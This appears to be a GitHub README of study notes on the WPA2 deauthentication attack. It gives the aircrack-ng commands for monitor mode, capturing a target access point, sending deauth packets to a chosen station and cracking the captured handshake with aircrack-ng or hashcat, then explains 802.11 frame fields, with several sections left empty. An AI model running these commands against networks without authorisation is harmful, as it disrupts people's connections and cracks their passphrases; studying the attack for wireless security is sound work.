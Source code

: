# WPA2 Deauth Attack

Basic Steps:

* (1) Put wNIC into monitor or promiscious mode
* (2) Monitor the network for traffic
    * (2a) Consider Strength of signal
    * (2b) Consider Whether or not you see both router and device traffic
* (3) Target the monitor to just the interested Access Point and dump its traffic
* (4) In parallel, send a malicious de-auth packet from your wNIC whose dest is the station and whose src is the router
* (5) Hopefully capture the eapol handshake to get the encrypted passphrase
* (6) Use a hash-breaker tool find a passphrase usually from a dictionary or set of rules that reproduce the recovered hased passphrase

These steps can be executed on a linux box with the following

* [install aircrack tools](https://www.aircrack-ng.org/doku.php?id=install_aircrack)
* `sudo airmon-ng start wlp5s0`
    * Assume your NIC is `wlp5s0`, most are named `wlan0`
* `iwconfig to verify monitor mode`
* `sudo airodump-ng wlp5s0mon`
    * This will give you an idea of what AP's, stations, and channels to target
    * Record the MAC of the AP and the station you want to kick off
* `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>`
    * Keep this open to log WPA2 Handshake
* In other term `sudo aireplay wlp5s0mon -0 1 -a <AP MAC> -c <TARGET MAC>`
    * This sends the attack
    * Hopefully in the dump term you capture the handshake
* To crack using aircrack: `aircrack-ng -a 2 -b <bssid> <.cap file> -w <wordlist>`
* To restore if -> `sudo airmon-ng stop wlp5s0mon && sudo ifconfig wlp5s0 up`
* To crack with hashcat Install hashcat and haschcat-utils
    * Convert the `.cap` to a `.hccapx`
    * `hashcat -m 2500 -a 0 <hhcapx> <wordlist>` will do a straight dictionary attack

# Probes, Beacons, and Wifi Packets

To get stated analyzing this attack we need to look at exactly how one knows that an access point or AP is avaiable. After all this attack targets a single and deliberately chosen AP. The best way to start analyzing packets is with wireshark which can be installed with the `apt` mananger. One can run this `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>` followed by running wire shark on the outputted .cap file. In wireshark you can filter out alot of the noise on the channel with the filter `wlan.addr == <bssid> `.

# WIFI packet Basic Structure

```

-----------------------------------------------------------------
| FC | Dur | DA | SA | BSSID | Seq | A4 | QoS | HT | Body | FCS |
-----------------------------------------------------------------

```

* FC = Frame Control. Most importantly defines frame type and sub type. See [here](https://en.wikipedia.org/wiki/802.11_Frame_Types)
* Dur = Duration. Usually denotes the amount requested or granted of airtime
* DA = Destination Address
* SA = Source Address
* BSSID = MAC of AP
* Seq = Sequence Number
* A4 = MAC 4 only present in frames between APs
* QoS = Quality of Service
* HT = High Throughput
* Body = Main body of packet
* FCS = CRC of packet including header

Each of these fields have drastically different meanings based on the type of frame of which there are 4 major types:

* Data
* Control
* Management
* Misc

Below we look at a very very small subset of the packet and their contents as it relates to this attack


## Beacon


## Probe

* Deliberatley sent by the station (STA) to the AP

## Authentication

## Deauthentication

## WPA2 EAPOL Frames

# Resources

* [Wiki on Wifi Frame](https://en.wikipedia.org/wiki/802.11_Frame_Types)
* [Wiki on 802.11](https://en.wikipedia.org/wiki/IEEE_802.11#Layer_2_%E2%80%93_Datagrams)
